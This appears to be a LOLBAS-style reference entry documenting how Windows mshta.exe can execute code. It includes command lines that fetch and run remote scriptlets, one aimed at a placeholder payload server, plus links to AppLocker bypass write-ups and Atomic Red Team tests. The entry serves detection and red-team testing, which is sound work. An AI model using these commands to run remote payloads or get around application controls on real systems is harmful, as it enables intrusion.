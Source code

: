 ## mshta.exe

* Functions: Execute

```
mshta.exe evilfile.hta    

mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))    

mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* [Mshta_calc.sct](Payload/Mshta_calc.sct)

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Mshta.md      
* https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4     
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct     
* https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/    

Full path:
```
C:\Windows\System32\mshta.exe
C:\Windows\SysWOW64\mshta.exe
```

Notes:
SCT code borrowed from Red Canary - Atomic Red Team 

